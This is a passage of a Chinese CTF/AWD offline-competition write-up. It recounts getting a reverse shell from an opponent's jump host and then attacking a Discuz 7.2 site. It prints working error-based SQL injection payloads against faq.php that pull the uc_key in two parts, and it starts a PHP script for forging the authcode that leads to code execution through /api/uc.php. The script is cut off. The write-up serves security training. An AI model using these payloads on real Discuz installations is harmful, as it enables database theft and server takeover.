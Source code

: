 然后对手的一台存在该漏洞的跳板机192.168.10.128访问了我们的192.168.10.254这台攻防机<br>
(因为对手要攻击我们的攻防机获取flag，所以对手一般都会使用跳板机的浏览器去访问我们攻防机的web网站)<br>
这时候就会触发漏洞反弹一个shell给我们，由此我们就成功渗透进了对手的192.168.10.128这台内网机子。<br>[![](https://p1.ssl.qhimg.com/t0102546f734e463ea1.png)](https://p1.ssl.qhimg.com/t0102546f734e463ea1.png)



## 线下赛2

### <a class="reference-link" name="%E7%8E%AF%E5%A2%83%E8%AF%B4%E6%98%8E"></a>环境说明

拓扑图<br>[![](https://p4.ssl.qhimg.com/t01a7af241816397017.png)](https://p4.ssl.qhimg.com/t01a7af241816397017.png)

拓扑图是主办方在后阶段发的，刚开始的网络结果全部要自己去探测。<br>
比赛是渗透+AWD攻防模式，一个队伍有十台信息点靶机(用户名为info1-info10)和5台攻防机(用户名score1-score5)，要先渗透进自己的信息点机才能够进一步渗透进自己的攻防机，是个多级内网的结构。

<a class="reference-link" name="%E4%B8%BB%E8%A6%81%E6%80%9D%E8%B7%AF%E5%B0%B1%E6%98%AF:"></a>**主要思路就是:**

> 渗透进信息点机获取相应的flag和信息，然后渗透进自己的攻防机，然后在跳板机上对其他队伍进行攻击渗透。

### <a class="reference-link" name="%E6%B8%97%E9%80%8Finfo4%E2%80%94ip%20192.1.1.14"></a>渗透info4—ip 192.1.1.14

这是一个discuz7.2的网站<br>
自己电脑的ip为192.1.1.1

faq.php文件存在sql注入，sql注入的原理参考<br>[https://www.waitalone.cn/discuz72-faq-sql-injection.html](https://www.waitalone.cn/discuz72-faq-sql-injection.html)<br>
在Discuz中，uc_key是UC客户端与服务端通信的通信密钥，获取到uc_key之后就可以计算出code,导致 /api/uc.php中存在代码写入漏洞。<br>
这题拿shell主要思路是:获取uc key然后计算出code最后xml注入getshell<br>
(为了更好的说明，附上本人复现的截图)<br>
uc_key长度为64位，需要注入两次才能拿到完整的uc_key<br>
payload<br>
获取前62位<br>
faq.php?action=grouppermission&amp;gids[99]=’&amp;gids[100][0]=) and (select 1 from (select count(**),concat(floor(rand(0)**2),0x23,(select substr(authkey,1,62) from ucenter.uc_applications limit 0,1),0x23)x from information_schema.tables group by x)a)%23<br>[![](https://p0.ssl.qhimg.com/t0151b300f1e43ba433.png)](https://p0.ssl.qhimg.com/t0151b300f1e43ba433.png)

获取最后两位<br>
faq.php?action=grouppermission&amp;gids[99]=’&amp;gids[100][0]=) and (select 1 from (select count(**),concat(floor(rand(0)**2),0x23,(select substr(authkey,63,2) from ucenter.uc_applications limit 0,1),0x23)x from information_schema.tables group by x)a)%23<br>[![](https://p4.ssl.qhimg.com/t016f000def0c50b167.png)](https://p4.ssl.qhimg.com/t016f000def0c50b167.png)

最后获得uc_key为<br>
m5B4W93cV8ebvfb392l7Ias8PeLcl9LbSc29LeZcP9i6kc08t4X4u85bHbma77Dc

计算出code [代码]

```
&lt;?php
$timestamp = time()+10*3600;
$host="http://10.10.10.1/Discuz_7.2_SC_UTF8/upload";
$uc_key="m5B4W93cV8ebvfb392l7Ias8PeLcl9LbSc29LeZcP9i6kc08t4X4u85bHbma77Dc";
$code=urlencode(_authcode("time=$timestamp&amp;action=updateapps", 'ENCODE', $uc_key));
echo $code;

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) 
`{`
    $ckey_length = 4;
    $key = md5($key ? $key : UC_KEY);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
```